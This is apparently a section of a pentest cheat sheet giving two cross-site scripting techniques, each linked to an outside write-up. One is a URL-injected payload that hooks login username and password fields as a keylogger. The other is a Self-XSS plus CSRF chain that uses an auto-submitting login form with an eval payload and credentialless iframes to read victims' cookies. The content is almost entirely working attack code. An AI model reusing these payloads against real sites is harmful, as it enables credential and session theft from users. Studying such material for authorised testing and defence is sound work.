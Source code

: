 ## XSS Keylogger
- [Escalating XSS](https://www.linkedin.com/posts/florian-ethical-hacker_escalating-xss-during-a-recent-pentest-activity-7355492287549779968-Ui20?utm_source=share&utm_medium=member_android&rcm=ACoAACnP0IABZSB2JmWSbESElQ3AjiJztsp0gN8)

```js
/login.jsp?&access_token=adasdas<@urlencode>');window.addEventListener('DOMContentLoaded', () => { ['user_name', 'user_password'].forEach(n => { const input = document.querySelector(`input[name=${n}]`); if (input) { input.addEventListener('input', e => console.log(n + ': ' + e.target.value)); } }); });</script></@urlencode>
```

## Self-XSS + CSRF
- [Self-XSS + CSRF](https://blog.slonser.info/posts/make-self-xss-great-again/)

The main idea is: `Stored Self-XSS => Stored XSS`. How? ``credentialless iframe``. **Credentialless iframes are same-origin with regular iframes**
```html
<iframe src="http://victim.domain/" width="40%" height="500px" credentialless></iframe>
<iframe src="http://victim.domain/" width="40%" height="500px"></iframe>
```
1. Create CSRF login form:
```html
<html>
<body>
  <form action="http://victim.domain/login" method="POST">
    <input type="hidden" name="username" value="attacker_username<img src=x onerror=eval(window.name)>" />
    <input type="hidden" name="password" value="Super_s@fe_password" />
    <input type="submit" value="Submit request" />
  </form>
  <script>
    document.forms[0].submit();
  </script>
</body>
</html>
```
2. Direct the target to the following page:
```html
<iframe name="window.top[1].document.body.innerHTML = 'edited by slonser</br>' + 'Our cookie is: ' + document.cookie + '\nVictim cookie is: ' + window.top[1].document.cookie;" src="./logi-csrf-poc.html" width="40%" height="500px" credentialless></iframe>
<iframe src="http://localhost:3004/" width="40%" height="500px"></iframe>
```